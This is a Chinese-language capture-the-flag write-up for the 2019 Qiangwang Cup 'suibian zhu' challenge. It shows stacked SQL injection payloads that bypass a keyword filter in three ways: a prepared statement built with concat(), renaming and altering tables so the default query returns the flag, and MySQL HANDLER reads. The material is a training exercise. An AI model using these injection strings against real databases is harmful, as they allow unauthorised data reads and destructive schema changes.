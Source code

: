 # [强网杯 2019]随便注 1

- 进入网页，输入 `1'` 报错，确定是单引号闭合，存在注入点，但既然是强网杯的题，肯定没有这么简单，在准备判断回显点的时候，就发现各个关键字被过滤了

> <img src="../../IMG2/Screenshot 2024-05-19 190035.png">

- 使用数组直接报错，所以这道题肯定不是绕过preg_match()函数，仔细思考，常用的注入方式不能使用，那么还剩冷门的堆叠注入，尝试堆叠注入，发现注入成功

> <img src="../../IMG2/Screenshot 2024-05-19 190319.png">

- 查看191的字段，发现了flag。注意，这里的表名是纯数字，需要使用反引号括起来

> <img src="../../IMG2/Screenshot 2024-05-19 190829.png">

- 但是这里又有问题了，查询字段内容一般来说必须使用select，但是这道题又给它过滤了。对于这道题，我们有三种解决方法

方法一：预编译

- 在mysql中，预编译命令就是使用prepare命令预先定义好需要执行的命令，并使用一个简短的名称代替，然后使用execute执行

> <img src="../../IMG2/Screenshot 2024-05-19 193141.png">

- 构建payload，为了绕过preg_match函数，我们使用concat()函数进行拼接

`1';prepare inject from concat('selec', 't * from (反引号)1919810931114514(反引号));execute inject;#`

- 得到flag

> <img src="../../IMG2/Screenshot 2024-05-19 193837.png">

方法二：使用自带的select语句

- 如果我们不能自己传入select，还可以使用现成的，因为我们传入的参数一定会执行一次select查询。默认的查询表应该是words，所以我们可以把191的表名改为words，让我们的查询在191中进行，先查询words的字段信息，看看默认查询的是哪个字段

`1';desc words;#`

> <img src="../../IMG2/Screenshot 2024-05-19 200154.png">

- 可以知道默认查询的字段是id，显示的数据字段名是data，然后查看191的字段信息，查看需要更改哪些字段

`1';desc (反引号)1919810931114514(反引号);#`

> <img src="../../IMG2/Screenshot 2024-05-19 200829.png">

- 只有一个字段flag，那就将flag改为id

`1';alter table (反引号)1919810931114514(反引号) change flag id varchar(50);desc (反引号)1919810931114514(反引号)#`

> <img src="../../IMG2/Screenshot 2024-05-19 203449.png">

- 更改表名

`1';alter table words rename to words1;alter table (反引号)1919810931114514(反引号) rename to words;show tables;#`

> <img src="../../IMG2/Screenshot 2024-05-19 194550.png">

- 现在来想想如何得到flag，我们输入id，输出data，那么查询语句肯定有 `where id = ?` ，如果想要获得全部数据，则可以使用or来绕过where，如下

> <img src="../../IMG2/Screenshot 2024-05-19 205218.png">

- 最后得到flag

> <img src="../../IMG2/Screenshot 2024-05-19 205353.png">

方法三：使用handler

- handler是Mysql独有的查询字段数据的命令，需要打开，读取和关闭三步

`1';handler (反引号)1919810931114514(反引号) open;handler (反引号)1919810931114514(反引号) read first;handler (反引号)1919810931114514(反引号) close;`

> <img src="../../IMG2/Screenshot 2024-05-19 205822.png">